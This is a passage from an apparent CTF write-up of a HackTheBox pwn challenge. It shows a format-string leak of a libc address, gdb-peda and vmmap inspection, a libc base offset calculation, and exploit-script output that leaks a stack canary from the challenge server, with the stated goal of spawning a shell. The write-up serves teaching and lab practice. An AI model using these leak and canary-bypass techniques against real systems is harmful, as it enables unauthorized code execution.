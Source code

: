 ```
Red or Green Kryptonite?
%25$p
0x7ffff7dbe480

gdb-peda$ x/gw 0x7ffff7dbe480
0x7ffff7dbe480 <__libc_start_call_main+122>:    0xffe8c789
```

So `libc_start_call_main` is located at position 25. This isn't the `libc` library itself, so we have to use `vmmap` to identify where the library starts being loaded:

```
gdb-peda$ vmmap 
Start              End                Perm      Name
0x0000555555554000 0x0000555555555000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555555000 0x0000555555556000 r-xp      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555556000 0x0000555555557000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555557000 0x0000555555558000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555558000 0x0000555555559000 rw-p      /home/kali/htb/pwn/what_does_the_f_say
0x00007ffff7dbb000 0x00007ffff7dbe000 rw-p      mapped
0x00007ffff7dbe000 0x00007ffff7de4000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
```

Using the start address of the first instance of `libc` being loaded, we can calculate the offset to find the base address.

```
>>> hex(-0x7ffff7dbe480 + 0x7ffff7de518a)
'0x26d0a'
```

Since we can leak the `libc_start_main` address of `libc`, we can actually find the exact `libc` being used on the challenge server. Then, we can head to Blukat to find and download the exact library, which we will need in order to spawn a shell on the challenge server.

{% embed url="https://libc.blukat.me/" %}

```
$ python3 exploit.py
[+] Opening connection to 159.65.81.48 on port 30455: Done
[*] Stack Canary: 0xecdcc986acd2a500
[*] Libc_Start: 0x7f2ae943eb97
[*] Closed connection to 159.65.81.48 port 30455
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>
